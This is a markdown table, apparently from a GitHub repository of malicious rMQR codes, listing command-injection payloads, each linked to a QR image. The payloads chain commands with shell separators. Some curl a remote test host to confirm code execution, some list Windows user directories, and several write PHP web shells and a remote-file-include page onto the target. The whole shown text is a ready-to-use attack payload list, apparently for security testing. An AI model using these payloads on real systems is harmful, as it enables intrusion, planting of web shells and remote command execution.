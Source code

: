 | `\| curl <http://crowdshield.com/.testing/rce.txt`> | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/111.png) |
| `& curl http://crowdshield.com/.testing/rce.txt` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/112.png) |
| `; curl https://crowdshield.com/.testing/rce_vuln.txt` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/113.png) |
| `&& curl https://crowdshield.com/.testing/rce_vuln.txt` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/114.png) |
| `curl https://crowdshield.com/.testing/rce_vuln.txt` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/115.png) |
| ``$(`curl <https://crowdshield.com/.testing/rce_vuln.txt?req=22jjffjbn`)`>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/116.png) |
| `dir` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/117.png) |
| `\| dir` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/118.png) |
| `; dir` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/119.png) |
| ``$(`dir`)`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/120.png) |
| `& dir` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/121.png) |
| `&&dir` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/122.png) |
| `&& dir` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/123.png) |
| `\| dir C:\` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/124.png) |
| `; dir C:\` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/125.png) |
| `& dir C:\` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/126.png) |
| `&& dir C:\` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/127.png) |
| `dir C:\` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/128.png) |
| `dir C:\Documents and Settings\*` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/133.png) |
| `\| dir C:\Users` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/134.png) |
| `; dir C:\Users` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/135.png) |
| `& dir C:\Users` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/136.png) |
| `&& dir C:\Users` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/137.png) |
| `dir C:\Users` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/138.png) |
| `\| echo "<?php include($_GET['page'])\| ?>" > rfi.php` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/140.png) |
| `; echo "<?php include($_GET['page']); ?>" > rfi.php` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/141.png) |
| `& echo "<?php include($_GET['page']); ?>" > rfi.php` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/142.png) |
| `&& echo "<?php include($_GET['page']); ?>" > rfi.php` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/143.png) |
| `echo "<?php include($_GET['page']); ?>" > rfi.php` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/144.png) |
| `\| echo "<?php system('dir $_GET['dir']')\| ?>" > dir.php` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/145.png) |
| `; echo "<?php system('dir $_GET['dir']'); ?>" > dir.php` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/146.png) |
| `& echo "<?php system('dir $_GET['dir']'); ?>" > dir.php` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/147.png) |
| `&& echo "<?php system('dir $_GET['dir']'); ?>" > dir.php` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/148.png) |
| `echo "<?php system('dir $_GET['dir']'); ?>" > dir.php` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/149.png) |
| `\| echo "<?php system($_GET['cmd'])\| ?>" > cmd.php` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/150.png) |
| `; echo "<?php system($_GET['cmd']); ?>" > cmd.php` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/151.png) |
| `& echo "<?php system($_GET['cmd']); ?>" > cmd.php` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/152.png) |